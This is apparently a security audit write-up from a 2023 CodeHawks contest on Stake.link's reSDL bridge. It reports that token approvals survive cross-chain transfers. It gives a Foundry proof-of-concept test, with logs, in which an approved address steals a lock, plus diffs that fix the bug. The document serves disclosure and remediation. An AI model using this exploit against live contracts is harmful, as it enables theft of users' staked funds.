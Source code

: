 # Stakelink

Code under review: [2023-12-stakelink](https://github.com/Cyfrin/2023-12-stake-link) (1414 nSLOC)

Contest Page: [stakelink-contest](https://www.codehawks.com/contests/clqf7mgla0001yeyfah59c674)

Placement: #11

## [H-01] Token approvals are not revoked when transferring reSDL across chains, leading to stolen funds.
>The official submission can be found on codehawks [here](https://www.codehawks.com/submissions/clqf7mgla0001yeyfah59c674/82)

### Summary
reSDL token approvals are not deleted when transferring reSDL cross-chain, allowing previously approved users to steal a reSDL lock once it's been transferred back to the original chain. 

### Vulnerability Details
Transferring reSDL locks between users is supposed to delete the approvals for that lockId, as new owners likely do not want the previously approved people to still be approved to their lock. This is evident in the NATSPEC of the function `SDLPool::approve`
<details>
<summary>NATSPEC of SDLPool::approve()</summary>

```javascript
    /**
     * @notice approves `_to` to transfer `_lockId` to another address
     * @dev
---> * - approval is revoked on transfer and can also be revoked by approving zero address
     * - reverts if sender is not owner of lock and not an approved operator for the owner
     * - reverts if `_to` is owner of lock
     * - reverts if `_lockId` is invalid
     * @param _to address approved to transfer
     * @param _lockId id of lock
     **/
```
</details>

The above requirement is properly enforced in the `SDLPool::_transfer()` internal function, due to the line:

```delete tokenApprovals[_lockId]```
(Line 464 of SDLPool.sol)

However, the requirement is not held when transferring reSDL tokens cross-chain.

When a user calls `RESDLTokenBridge::transferRESDL` to send a reSDL lock to the secondary chain, 
In `SDLPoolPrimary::handleOutgoingRESDL`, the token approvals for the lock `_lockId` are not deleted.
<details> 
<summary>Code</summary>

```javascript 
    Lock memory lock = locks[_lockId];

    delete locks[_lockId].amount;
    delete lockOwners[_lockId];
    balances[_sender] -= 1;
    // [H] @audit - what about token approvals?
    // The token approvals for reSDL are not deleted when we use the bridge to send reSDL to another chain!

    uint256 totalAmount = lock.amount + lock.boostAmount;
    effectiveBalances[_sender] -= totalAmount;
    effectiveBalances[ccipController] += totalAmount;

    sdlToken.safeTransfer(_sdlReceiver, lock.amount);

    emit OutgoingRESDL(_sender, _lockId);    
```
</details>

Similarly in `SDLPoolSecondary::handleOutgoingRESDL`, tokenApprovals are not deleted on sending reSDL back to the primary chain.

Note that how much ever the lock is transferred in the other chain, the approvals in that chain will constantly be deleted, but the approvals in the original chain remain intact.

### Impact

Since the approvals are not deleted whenever the reSDL token is transferred over to a different chain, the approval will still exist when the token is transferred back to the original chain. Once this happens, the approved user can transfer the lock to themselves, since they have approval to that lockId.

### Proof of Concept

**Summary:**

The following is one example of how the vulnerability can be exploited.

Initial State: initialOwner owns the lock with lockId=1 (the lockId is arbitrary, the vulnerability exists for every lockId possible).

Steps:

1. A user (initialOwner) approves their alt account (initialOwner_Alt), before transferring their reSDL lock to another user (receiverOfLock) on secondary chain
2. The user who just received it on the secondary chain transfers the lock to someone else (otherReceiverOfLock), this only deletes approvals on the secondary chain
3. The otherReceiverOfLock transfers their lock back to the primary chain, with the receiver being their own address.
4. initialOwner_Alt who is still approved calls `primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);` to transfer the lock back to themselves.
 
> Note that the following foundry test may not be immediately runnable on any machine, as it uses a few custom mocks that bypass the need for CCIP but mimic the functionality of the protocol. 

<details><summary>Setting up</summary>

```javascript
contract YourTestContract is Test {

    struct OnRamp {
        uint64 destChainSelector;
        address onRamp;
    }
    struct OffRamp {
        uint64 sourceChainSelector;
        address offRamp;
    }

    uint64 primaryChainSelector = 77;
    uint64 secondaryChainSelector = 78;

    ERC677Token linkToken;
    ERC677Token sdlToken;
    ERC677Token token2;
    WrappedNative wrappedNative;
    LinearBoostController boostController;

    SDLPoolPrimary primarySDL;
    SDLPoolSecondary secondarySDL;

    CCIPTokenPoolMock tokenPool;
    CCIPTokenPoolMock tokenPool2;

    MockRESDLTokenBridge bridgePrimary;
    MockRESDLTokenBridge bridgeSecondary;

    // USERS
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address user3 = makeAddr("3");

    function setUp() public {
        // Deploy ERC677 tokens

        address starterMaster = makeAddr("starterMaster"); // he gets all the supply @ the start
        linkToken = new ERC677Token("Chainlink", "LINK", starterMaster, 1000000000);
        sdlToken = new ERC677Token("SDLName", "SDL", starterMaster, 1000000000);
        token2 = new ERC677Token("Token2", "T2", starterMaster, 1000000000);

        // Deploy other contracts
        wrappedNative = new WrappedNative();
        address armProxy = address(new CCIPArmProxyMock());
        address router = address(new Router(address(wrappedNative), armProxy));


        // TokenPool
        tokenPool = new CCIPTokenPoolMock(address(sdlToken));
        tokenPool2 = new CCIPTokenPoolMock(address(token2));

        address[] memory tokens = new address[](2);
        tokens[0] = address(sdlToken);
        tokens[1] = address(token2);
        address[] memory tokenPools = new address[](2);
        tokenPools[0] = address(tokenPool);
        tokenPools[1] = address(tokenPool2);

        boostController = new LinearBoostController(4 * 365 * 86400, 4);
        
        SDLPoolPrimary primarySDLImplementation = new SDLPoolPrimary();
        SDLPoolSecondary secondarySDLImplementation = new SDLPoolSecondary();
        
        // make proxies
        ERC1967Proxy proxyPrimary = new ERC1967Proxy(address(primarySDLImplementation), "");
        ERC1967Proxy proxySecondary = new ERC1967Proxy(address(secondarySDLImplementation), "");

        // Interface at the proxy address
        primarySDL = SDLPoolPrimary(address(proxyPrimary));
        secondarySDL = SDLPoolSecondary(address(proxySecondary));

        //initialize the implementations
        primarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController));
        secondarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController), 5);
        
        //Pool Controllers
        MockPrimaryController primaryController = new MockPrimaryController(router, address(linkToken), address(sdlToken), address(primarySDL), 10 ether);
        MockSecondaryController secondaryController = new MockSecondaryController(router, address(linkToken), address(sdlToken), address(secondarySDL), 77, makeAddr("4"), 10 ether, '0x');

        // Bridges
        bridgePrimary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(primarySDL), address(primaryController));
        bridgeSecondary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(secondarySDL), address(secondaryController));

        // Setting up primary side
        primaryController.setRESDLTokenBridge(address(bridgePrimary));
        primarySDL.setCCIPController(address(primaryController));

        vm.prank(address(bridgePrimary));
        linkToken.approve(address(bridgePrimary), type(uint256).max);

        bridgePrimary.setExtraArgs(77, '0x11');
        primaryController.addWhitelistedChain(77, user1, '0x', '0x');
        sdlToken.mint(user2, 2000 ether);

        // Setting up secondary side
        secondaryController.setRESDLTokenBridge(address(bridgeSecondary));
        secondarySDL.setCCIPController(address(secondaryController));

        
        // Creating 2 different locks in the primary pool
        vm.startPrank(user2);
        sdlToken.transferAndCall(
        address(primarySDL),
        200 ether,
        abi.encode(uint256(0), uint64(0)));


        sdlToken.transferAndCall(
        address(primarySDL),
        1000 ether,
        abi.encode(uint256(0), uint64(365 * 86400)));

        vm.stopPrank();
    }
}
```
</details>
<details>
<summary>Proof of Code</summary>

```javascript
function test_POC_ApprovalsNotDeleted() public {
    // This shows that approvals in one chain are not deleted when a lock is sent to another chain

    address initialOwner = makeAddr("2");
    address receiverOfLock = makeAddr("3");

    address initialOwner_Alt = makeAddr("2Alt");

    vm.startPrank(initialOwner);
    // Approve the alt account
    primarySDL.approve(initialOwner_Alt, 1);

    // Log the approvals of lockId=1
    address approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    console2.log("SENDING LOCK TO SECONDARY CHAIN\n");
    bridgePrimary.transferRESDL(78, address(bridgeSecondary), receiverOfLock, 1, false);
    vm.stopPrank();

    // Now transfer the lock in the secondary chain
    address otherReceiverOfLock = makeAddr("4");
    vm.startPrank(receiverOfLock);
    console2.log("TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN\n");

    // This deletes the approvals of the lock, but only in the secondary chain
    secondarySDL.transferFrom(receiverOfLock, otherReceiverOfLock, 1);
    vm.stopPrank();
    assertEq(secondarySDL.ownerOf(1), otherReceiverOfLock);

    // Then send it back to themselves on the primary chain
    vm.startPrank(otherReceiverOfLock);
    console2.log("SENDING LOCK BACK TO PRIMARY CHAIN\n");
    bridgeSecondary.transferRESDL(77, address(bridgePrimary), otherReceiverOfLock, 1, false);
    vm.stopPrank();

    // Check that the approvals are still there
    approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    // Check that `otherReceiverOfLock` is still the owner of the lock
    uint256[] memory lockIds = primarySDL.getLockIdsByOwner(otherReceiverOfLock);
    assertEq(lockIds[0], 1);

    // Check that og owner's alt account can transfer it to themselves
    vm.startPrank(initialOwner_Alt);
    console2.log("USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`");
    primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);
    vm.stopPrank();

    // Check that the alt account now owns the lock with lockId=1, effectively stolen from `otherReceiverOfLock`
    lockIds = primarySDL.getLockIdsByOwner(initialOwner_Alt);
    assertEq(lockIds[0], 1);

    console2.log("New owner of lockId=1: %s", primarySDL.ownerOf(1));
}
```
</details>

<details>
<summary> Console Output </summary>

```zsh
Running 1 test for test/PoC/Proofs.t.sol:YourTestContract
[PASS] test_POC_ApprovalsNotDeleted() (gas: 489600)
Logs:
  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  SENDING LOCK TO SECONDARY CHAIN

  TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN

  SENDING LOCK BACK TO PRIMARY CHAIN

  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`
  New owner of lockId=1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.33ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details> 

### Tools Used
Manual Review

### Recommendations
Delete the token approvals whenever reSDL tokens are transferred to another chain.
This will ensure that approved users dont have the ability to transfer reSDL tokens once the tokens have been transferred cross-chain.

In `SDLPoolPrimary::handleOutgoingRESDL`:
<details><summary>SDLPoolPrimary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    )
        external
        onlyCCIPController
        onlyLockOwner(_lockId, _sender)
        updateRewards(_sender)
        updateRewards(ccipController)
        returns (Lock memory)
    {
        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount; 
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;


        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        effectiveBalances[ccipController] += totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount); // @audit - _sdlReceiver is the address of the CCIPController.

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```
</details>

Similarly, in `SDLPoolSecondary::handleOutgoingRESDL`:
<details><summary>SDLPoolSecondary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    ) external onlyCCIPController onlyLockOwner(_lockId, _sender) updateRewards(_sender) returns (Lock memory) {
        if (queuedLockUpdates[_lockId].length != 0) revert CannotTransferWithQueuedUpdates();

        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount;
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;

        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        totalEffectiveBalance -= totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount);

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```

</details>
		

